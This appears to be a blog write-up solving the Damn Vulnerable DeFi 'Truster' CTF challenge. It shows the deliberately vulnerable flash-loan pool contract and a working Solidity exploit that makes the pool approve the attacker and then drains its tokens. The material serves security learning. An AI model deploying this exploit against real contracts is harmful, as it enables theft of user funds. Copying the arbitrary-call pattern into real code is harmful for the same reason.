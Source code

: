 # Damn Vulnerable Defi 3: Truster

This challenge is about a how the borrower is called. Lesson learned: A receiver function needs to be coded out!

## The Task Intro

More and more lending pools are offering flash loans. In this case, a new pool has launched that is offering flash loans of DVT tokens for free. Currently the pool has 1 million DVT tokens in balance. And you have nothing. But don't worry, you might be able to take them all from the pool. In a single transaction.

## The Task Code

TrusterLenderPool.sol

```apache
// SPDX-License-Identifier: MIT

pragma solidity ^0.8.0;

import "@openzeppelin/contracts/token/ERC20/IERC20.sol";
import "@openzeppelin/contracts/utils/Address.sol";
import "@openzeppelin/contracts/security/ReentrancyGuard.sol";

/**
 * @title TrusterLenderPool
 * @author Damn Vulnerable DeFi (https://damnvulnerabledefi.xyz)
 */
contract TrusterLenderPool is ReentrancyGuard {

    using Address for address;

    IERC20 public immutable damnValuableToken;

    constructor (address tokenAddress) {
        damnValuableToken = IERC20(tokenAddress);
    }

    function flashLoan(
        uint256 borrowAmount,
        address borrower,
        address target,
        bytes calldata data
    )
        external
        nonReentrant
    {
        uint256 balanceBefore = damnValuableToken.balanceOf(address(this));
        require(balanceBefore >= borrowAmount, "Not enough tokens in pool");

        damnValuableToken.transfer(borrower, borrowAmount);
        target.functionCall(data);

        uint256 balanceAfter = damnValuableToken.balanceOf(address(this));
        require(balanceAfter >= balanceBefore, "Flash loan hasn't been paid back");
    }

}
```

## The Solution

This is the third Damn Vulnerable Defi task I solve for the Security Month in a row - after quite some reading about flash loans the days before. I get a bit tired and will solve the other two tomorrow.

Going through the contract TrusterLenderPool it first looks cool: the check if the borrowing amount is less than the available tokens of the pool, and the check after if the balance after is larger or equal than before. For me that looked not suspicous.

The suspicious part was the call to a random function through call. It took me some time to think out of the box. It was clear it must be a call to a contract, but shall I call my own contract and do a reentrency attack - this seemed to be safe because of the nonReentrant operator. Should it call flashLoan itself? But again, the nonReentrant operator would prevent that.

What was left? The token itself! And bingo - I remembered the approve function of the ERC20 Token. Because `target.functionCall(data)` calls in the context of the lender, it can approve the attacker account or a smart contract. Because all should happen in one transaction I decided for a smart contract:

```apache
contract Crack {
    TrusterLenderPool pool;
    IERC20 token;

    constructor(TrusterLenderPool _pool, IERC20 _token) {
        pool = _pool;
        token = _token;
    }

    function attack() external {
        bytes memory data = abi.encodeWithSignature(
            "approve(address,uint256)",
            address(this),
            1000000 * 10 ** 18
        );

        pool.flashLoan(0, address(this), address(token), data);
        token.transferFrom(address(pool), address(this), 1000000 * 10 ** 18);
        token.transfer(msg.sender, 1000000 * 10 ** 18);
    }
}
```

```appache
    const Crack = await ethers.getContractFactory("Crack", deployer);
    this.crack = await Crack.deploy(this.pool.address, this.token.address);

    await this.crack.connect(attacker).attack();
```

From the test I deploy the contract and call the attack function with the credentials from the attacker.

The attack encodes a call to the approve function with the contract address. This data is passed to the flash load with the receive function of the token. RESULT: The approve function is called with the credential of the pool.

This makes it easy to get all the tokens from the pool and transfer them to the attacker address.

Lesson learned: A receiver callback needs to be coded out!

